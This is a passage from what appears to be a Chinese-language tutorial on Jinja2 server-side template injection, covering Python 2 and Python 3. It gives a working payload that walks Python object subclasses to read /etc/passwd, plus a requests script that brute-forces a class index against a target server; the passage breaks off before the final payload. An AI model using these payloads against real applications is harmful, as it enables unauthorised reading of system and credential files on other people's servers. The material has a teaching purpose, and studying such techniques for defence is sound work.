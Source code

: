 ```
(15, <type 'slice'>)
(16, <type 'staticmethod'>)
(17, <type 'complex'>)
(18, <type 'float'>)
......
(38, <type 'ellipsis'>)
(39, <type 'member_descriptor'>)
(40, <type 'file'>)
(41, <type 'PyCapsule'>)
(42, <type 'cell'>)
(43, <type 'callable-iterator'>)
......


```

此 file 类可以直接用来读取文件：

```
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}


```

### Python 3

使用 file 类读取文件的方法仅限于 Python 2 环境，在 Python 3 环境中 file 类已经没有了。我们可以用`<class '_frozen_importlib_external.FileLoader'>` 这个类去读取文件。

首先编写脚本遍历目标 Python 环境中 `<class '_frozen_importlib_external.FileLoader'>` 这个类索引号：

```
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if 'FileLoader' in res.text:
        print(i)

# 得到编号为79


```

所以 payload 如下：
